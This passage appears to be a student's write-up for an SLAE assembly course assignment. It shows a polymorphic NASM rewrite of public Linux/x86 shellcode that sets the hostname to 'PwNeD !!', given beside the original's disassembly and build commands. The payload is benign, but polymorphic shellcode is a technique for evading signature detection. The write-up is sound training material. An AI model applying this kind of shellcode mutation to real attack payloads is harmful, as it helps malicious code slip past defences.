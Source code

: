 ```c
```
Making sure the original is working.
![6.2-shellcode-622-og-running](/assets/SLAE-x86/6.2-shellcode-622-og-running.PNG)
The polymorphic version of the above shellcode is as follows:
```nasm
; Title 		: SLAE Linux/x86 - Assignment-6.2
; Description	: Polymorphic version of Linux/x86 - sys_sethostname(PwNeD !!, 8) - 32 bytes by gunslinger_
; Original 		: http://shell-storm.org/shellcode/files/shellcode-622.php
; Author		: Rizal Muhammed (UB3RSiCK)
; Student ID	: SLAE 933
; Shellcode Len.: 28 bytes (4 Bytes smaller than original)
;
; nasm -f elf32 shellcode-622-poly.nasm -o shellcode-622-poly.o
; ld shellcode-622-poly.o -o shellcode-622-poly -z execstack

section .text
global _start

_start:

;original
;00000000  EB11              jmp short 0x13
;00000002  31C0              xor eax,eax
;00000004  B04A              mov al,0x4a
;00000006  5B                pop ebx
;00000007  B108              mov cl,0x8
;00000009  CD80              int 0x80
;0000000B  31C0              xor eax,eax
;0000000D  B001              mov al,0x1
;0000000F  31DB              xor ebx,ebx
;00000011  CD80              int 0x80
;00000013  E8EAFFFFFF        call dword 0x2
;00000018  50                push eax
;00000019  774E              ja 0x69
;0000001B  6544              gs inc esp
;0000001D  2021              and [ecx],ah
;0000001F  21                db 0x21

;Polymorphic

	xor eax,eax
	push eax					; push null terminator
	push dword 0x21212044		; python -c 'print "PwNeD !!"[::-1].encode("hex")'
	push dword 0x654e7750
	mov ebx, esp				; ebx = char __user *name
	mov al, 0x4a				; sys_sethostname = 0x4a
	push 0x8
	pop ecx						; ecx = int len
	int 0x80

	; exit
	mov al,0x1
	xor ebx,ebx
	int 0x80
```